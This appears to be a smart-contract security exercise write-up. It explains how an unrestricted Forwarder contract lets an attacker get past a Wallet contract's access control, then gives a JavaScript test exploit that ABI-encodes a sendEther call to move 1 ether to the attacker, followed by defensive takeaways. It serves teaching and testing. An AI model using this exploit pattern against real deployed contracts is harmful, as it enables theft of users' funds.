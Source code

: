 # Vulnerability and Exploit in Forwarder and Wallet Contracts

## Vulnerability Description

The vulnerability exists because the Forwarder contract's `functionCall` method can forward any function call to any address without limitations. This lets an attacker use the Forwarder contract to bypass the Wallet contract's access control and call the `sendEther` function.

## Exploit Description

The exploit occurs when the attacker creates a malicious data input, containing the necessary information for the `sendEther` function, and uses the Forwarder contract's `functionCall` method to pass this data to the Wallet contract. As a result, the Wallet contract sends 1 ether to the attacker's wallet.

````javascript
it("conduct your attack here", async function () {
      const sendEtherFunctionSig =
        "0x" +
        ethers.utils.id("sendEther(address,uint256)").slice(0, 10).slice(2);
      const destination = attackerWallet.address;
      const amount = ethers.utils.parseEther("1");

      const encodedDestination = ethers.utils.defaultAbiCoder
        .encode(["address"], [destination])
        .slice(2);
      const encodedAmount = ethers.utils.defaultAbiCoder
        .encode(["uint256"], [amount])
        .slice(2);

      const data = sendEtherFunctionSig + encodedDestination + encodedAmount;

      await forwarderContract
        .connect(attackerWallet)
        .functionCall(walletContract.address, data);
    });
```

## Takeaways

1. Always implement proper access control and restrictions in your smart contracts to prevent unauthorized function calls.
2. Be cautious when using low-level functions like `call` and `delegatecall`, as they can expose your contract to potential vulnerabilities.
````
